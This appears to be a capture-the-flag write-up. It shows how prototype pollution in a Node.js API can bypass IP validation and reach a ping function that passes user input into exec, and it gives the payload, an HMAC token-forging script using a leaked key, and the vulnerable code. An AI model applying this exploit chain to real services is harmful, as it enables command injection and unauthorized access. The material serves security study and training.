 Insufficient validation is done and therefore the above code has a "blind spot" where values in the request parameter having both **tier ≥ 5** and **canLookup = true**, eventually hit the **ping** endpoint. Therefore we can pass malicious data in the **address** parameter and will not get validated against **validateIP** function. 

So we need to craft a request with the following data:
```
{
	"tier": 10,
	"account": "MISSING VALUE",
	"__proto__": {
		"canLookup": true
	}
}
```
Although trivial, we still need to craft the hmac for this payload first. Since we have already found the hmac key in the steps above, we can use something like this in a `craftToken.js` file:
```javascript
const crypto = require("crypto");

const key = "indiana....let it go";

const payload = {
        "tier": 10,
        "account": "MISSING VALUE",
        "__proto__": {
                "canLookup": true
        }
};

const b64Payload = new Buffer.from(JSON.stringify(payload)).toString("base64");

const hash = crypto.createHmac('sha256', key)
                        .update(b64Payload)
                        .digest('hex');

console.log("apiToken: " + b64Payload + ":" + hash);
```

When invoked with NodeJS (`node craftToken.js`) prints out the encoded payload to use for the apiToken parameter: `eyJ0aWVyIjoxMCwiYWNjb3VudCI6Ik1JU1NJTkcgVkFMVUUifQ==:681116a5b368253770e6af63f2ebebdfc4efd4711e3f416e467c4029c29b7a78`

As the tier is >= 5 and `canLookup` is set to truw by exploiting prototype polution, the following code is then invoked:
```jsx
// ping.js
const Promise = require('bluebird');
const { exec } = require('child_process');
const execAsync = Promise.promisify(exec);

module.exports = async function ping(address) {
        const ping = await execAsync(`ping -c 3 -W 3 ${address}`); <<
        return ping.toString().split("\n")
                .map(x => x.trim())
                .filter(x => x != "")
                .filter(x => x.includes("bytes from"))
                .map(line => {
                        let count = (line.match(/=/g) || []).length;
                        let time = 0;
                        if (count >= 3) {
                                let regExp = /([0-9.]+)[ ]*ms/;
                                let match = regExp.exec(line);
                                time = parseFloat(match[1], 10);
                        }
                        return time;
```